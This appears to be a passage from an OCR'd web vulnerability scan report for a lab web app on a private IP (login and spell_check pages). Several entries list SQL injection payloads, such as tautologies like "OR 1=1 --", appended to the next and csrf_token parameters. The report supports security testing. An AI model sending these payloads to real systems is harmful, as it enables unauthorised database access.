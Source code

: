   
* URL: [http://192.168.7.30:8080/login?next=/index](http://192.168.7.30:8080/login?next=/index)
  
  
  * Method: `GET`
  
  
  * Parameter: `next`
  
  
  * Attack: `/index OR 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `next`
  
  
  * Attack: `/spell_check' OR '1'='1' -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbIS1A.sD5LkCRn4Hpv1dyr8xuBZiZ67pc" OR "1"="1`
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbIS1A.sD5LkCRn4Hpv1dyr8xuBZiZ67pc AND 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `submit`
  
  